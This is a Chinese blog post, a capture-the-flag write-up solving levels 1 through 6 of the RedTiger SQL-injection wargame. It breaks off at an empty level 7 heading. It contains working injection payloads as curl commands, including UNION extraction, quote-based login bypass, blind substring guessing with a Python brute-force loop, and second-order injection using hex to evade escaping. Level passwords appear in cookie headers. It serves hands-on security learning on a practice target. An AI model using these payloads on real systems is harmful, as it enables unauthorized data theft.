

repository: viennadd/blog_2025 · page: blog/玩-redtiger-SQL-注入-10-关/index.html · generator: docusaurus

---
title: 玩 redtiger SQL 注入 10 关
date: 2018-04-10 22:31:42
tags: [SQL Injection]
categories: [Tech Notes]
authors: [alexchen]

---

以前从来没试过手动 SQL 注入，这个系列挺适合我这种程度的哈哈

传送门：[https://redtiger.labs.overthewire.org/](https://redtiger.labs.overthewire.org/)

下面是流水账，想自己先玩的就随意罗

<!-- truncate -->

### level 1
cat 参数是注入点，没有明显回显，使用 1=1 ， 1=2 等可以确认，
使用 union 捞出数据
```
curl "https://redtiger.labs.overthewire.org/level1.php?cat=2/**/union/**/select/**/99,100,username,password/**/from/**/level1_users;--“;
```


### level 2
简单条件，单引号拼接
```
--data "username=a&password=a'+or+'1'='1&login=Login"
```


### level 3
提示说需要 trigger error，完了一顿时间没有头绪，看了答案，学会了触发类型错误，

需要在 usr 参数用 usr[0]=xxxx 来触发类型错误，再从出错提示中拿到 inc 文件，直接访问 inc 文件可以拿到源码，
之后就是把 sql 语句经过源码加解密来触发了


### level 4

使用substring 数值猜解 cell 值

```
curl "https://redtiger.labs.overthewire.org/level4.php?id=1/**/union/**/select/**/keyword,2/**/from/**/level4_secret/**/where/**/ascii(substring(keyword,1,1))=107;--"; -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Cache-Control: max-age=0' -H 'Cookie: level2login=4_is_not_random; level3login=feed_your_cat_before_your_cat_feeds_you; level4login=there_is_no_bug' -H 'Connection: keep-alive' --compressed
```


下面是简单枚举，可以改用二分查找减少请求，又使用并发缩短时间 

```py
def check(ascii_val):
    p = subprocess.Popen(["bash", "-c", command % (i,ascii_val)], stdout=subprocess.PIPE)
    out, _ = p.communicate()
    out = out.decode()
    print(out)
    return "Query returned 2 rows" in out


hits = []
for i in range(1, 25):
    for c in range(32, 127):
        if check(c):
            print(c)
            hits.append(c)
            break
```

### level 5

从hints 理解，就算拿到 password，也不能登入，限制了函数其实也是缩窄了范围，
解法就是自己提供一组可登入的数据

```
curl 'https://redtiger.labs.overthewire.org/level5.php?mode=login'; -H 'Cookie: level2login=4_is_not_random; level3login=feed_your_cat_before_your_cat_feeds_you; level4login=there_is_no_bug; level5login=there_is_a_truck' -H 'Origin: https://redtiger.labs.overthewire.org'; -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Cache-Control: max-age=0' -H 'Referer: https://redtiger.labs.overthewire.org/level5.php?mode=login'; -H 'Connection: keep-alive' --data "username=a' union all select '1','534b44a19bf18d20b71ecc4eb77c572f&password=alex&login=Login" --compressed
```


### level 6 

```
curl "https://redtiger.labs.overthewire.org/level6.php?user=-1/**/or/**/status=11/**/union/**/select/**/username,0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20/**/as/**/username,username,2,username/**/from/**/level6_users"; -H 'Cookie: level2login=4_is_not_random; level3login=feed_your_cat_before_your_cat_feeds_you; level4login=there_is_no_bug; level5login=there_is_a_truck; level6login=for_more_bugs_update_to_php7' -H 'Origin: https://redtiger.labs.overthewire.org'; -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Cache-Control: max-age=0' -H 'Referer: https://redtiger.labs.overthewire.org/level6.php?user=1'; -H 'Connection: keep-alive' --data 'user=admin&password=admin&login=Login' —compressed
```

##### 发现
从 user 里直接注入 union 并不影响输出，但会有 user not found 的错误提示，说明会根据 user 的 id 先拿到一个 username，再从 username 拿一次 user 数据，

##### 结果
不会做，翻了答案才知道可以间接注入，把用户名注入成另外一句 payload，当进行第二次 query 时触发数据替换，把邮件换成密码来显示
看了答案除了学会这招迂回注入，还发现可以用十六进制绕开 mysql_real_escape_string 的单引号过滤，hmmm


### level 7
